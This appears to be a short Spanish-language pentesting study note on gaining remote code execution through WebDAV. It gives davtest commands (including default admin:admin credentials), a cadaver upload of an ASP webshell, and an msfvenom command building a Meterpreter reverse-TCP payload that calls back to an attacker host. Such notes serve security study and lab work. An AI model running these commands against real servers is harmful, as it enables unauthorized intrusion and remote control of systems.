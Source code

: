 ```yaml
---
created: 2024-12-21

---
```

--------------
- tags: #web #windows #cadaver #davtest #fileupload #rce 
--------------

## davtest
> davtest sirve para hacer un chequeo sobre que extensiones de archivo se pueden subir y cuales son ejecutadas. Una vez tenemos esta información podemos usar cadaver para ganar RCE

	davtest -url http://x.x.x.x/webdav

	davtest -auth admin:admin -url http://x.x.x.x/webdav


## cadaver

	cadaver http://x.x.x.x/webdav
(Al ejecutar este comando nos pedirá el usuario y la contraseña)

	put /usr/share/webshells/asp/webshell.asp


## Payload con msfvenom

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f asp -o shell.asp


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
